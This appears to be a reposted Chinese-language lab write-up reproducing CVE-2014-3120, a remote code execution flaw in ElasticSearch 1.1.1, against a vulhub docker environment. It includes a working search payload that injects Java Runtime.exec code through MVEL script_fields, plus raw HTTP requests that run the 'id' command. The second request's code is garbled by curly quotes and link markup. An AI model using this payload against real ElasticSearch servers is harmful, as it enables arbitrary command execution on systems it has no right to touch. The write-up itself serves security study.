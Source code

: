 # （CVE-2014-3120）ElasticSearch 命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2902](https://www.zhihuifly.com/t/topic/2902)

# （CVE-2014-3120）ElasticSearch 命令执行漏洞

## 一、漏洞简介

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

## 二、漏洞影响

elasticsearch版本：v1.1.1

## 三、复现过程

编译及运行环境：

```
docker-compose build
docker-compose up -d 
```

将Java代码放入json中：

```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  } 
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “phithon”

}` 
```

然后，执行任意代码：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343 `{

“size”: 1,

“query”: {

“filtered”: {

“query”: {

“match_all”: {

}

}

}

},

“script_fields”: {

“command”: {

“script”: “import [java.io](http://java.io).*;new java.util.Scanner(Runtime.getRuntime().exec(“id”).getInputStream()).useDelimiter(”\\A").next();"

}

}

}` 
```

结果如图：

![image](img/9b42a356565d56b96d1eec001c3dcc38.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/